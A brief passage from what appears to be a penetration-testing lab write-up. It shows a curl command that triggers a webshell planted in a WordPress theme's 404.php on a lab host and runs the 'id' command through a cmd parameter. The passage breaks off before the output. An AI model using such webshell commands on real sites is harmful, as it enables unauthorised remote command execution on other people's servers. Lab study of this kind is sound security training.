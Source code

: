 ![Pasted image 20250220144836.png](../../../IMAGES/Pasted%20image%2020250220144836.png)

Nice, now we need to use curl to check if the webshell works:

```
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

We get this:
